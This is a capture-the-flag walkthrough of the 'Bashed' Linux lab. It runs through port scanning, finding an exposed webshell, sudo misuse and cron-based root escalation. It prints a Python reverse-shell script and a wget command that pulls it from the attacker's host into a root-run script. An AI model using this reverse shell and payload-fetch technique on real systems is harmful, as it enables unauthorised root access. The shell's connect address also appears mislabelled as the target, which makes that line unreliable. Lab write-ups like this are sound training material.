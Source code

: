 ## Bashed 

### Lab Details 

- Difficulty: Easy 
- Type: Linux

#### Tasks

Q1: How many open TCP ports are listening on Bashed?
 - `nmap target_ip -sT -A -T4`

Q2: What is the relative path on the webserver to a folder that contains phpbash.php?
 - use ffuf to enum the path 
 - `ffuf -u http://target_ip/FUZZ -w /usr/share/wordlists/dirb/big.txt`
 ```
 ...
 [Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 317ms]
    * FUZZ: dev
 ... 
 ```
 - webshell located at:  http://target_ip/dev/phpbash.php

Q3: What user is the webserver running as on Bashed?
 - `www-data@bashed`

Q4: Submit the flag located in the arrexel user's home directory.
 - cat /home/arrexel/user.txt

Q5: www-data can run any command as a user without a password. What is that user's username?
 - sudo -l -> scriptmanager

Q6: What folder in the system root can scriptmanager access that www-data could not?
 - ls -la / 
 ```
 drwxrwxr-- 2 scriptmanager scriptmanager 4096 Jun 2 2022 scripts
 ```
Q7: What is filename of the file that is being run by root every couple minutes?
 - `-u` flag of sudo allows the a command to be run as another user on the target 
 - `sudo -u scriptmanager ls -la /scripts` can be run to list the content in /scripts directory
 - below is the result of running the ls command at different times
 ```
 -- first run
 www-data@bashed:/# sudo -u scriptmanager ls -la /scripts
 total 16
 drwxrwxr-- 2 scriptmanager scriptmanager 4096 Jun 2 2022 .
 drwxr-xr-x 23 root root 4096 Jun 2 2022 ..
 -rw-r--r-- 1 scriptmanager scriptmanager 58 Dec 4 2017 test.py
 -rw-r--r-- 1 root root 12 May 15 05:45 test.txt

 -- second run 
 www-data@bashed:/# sudo -u scriptmanager ls -la /scripts
 total 16
 drwxrwxr-- 2 scriptmanager scriptmanager 4096 Jun 2 2022 .
 drwxr-xr-x 23 root root 4096 Jun 2 2022 ..
 -rw-r--r-- 1 scriptmanager scriptmanager 58 Dec 4 2017 test.py
 -rw-r--r-- 1 root root 12 May 15 05:48 test.txt
 ``` 
 - theres a difference in modify date of test.txt

Q8: Submit the flag located in root's home directory.
- since test.py is getting executed as cronjob and scriptmanager has read/write access over /scripts
- a reverse shell can be load and will be executed when the next cronjob runs  
- below is test.py 
 ```
 import socket,subprocess,os
 s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
 s.connect(("target_ip",9002))
 os.dup2(s.fileno(),0)
 os.dup2(s.fileno(),1)
 os.dup2(s.fileno(),2)
 import pty
 pty.spawn("sh")
 ```
- host test.py file on local using `python3 -m http.server` 
- fetch from local `sudo -u scriptmanager wget http://10.10.14.27:8000/ -O /scripts/test.py` 
- run netcat to catch the reverse shell with root access 

#### Lesson Learned
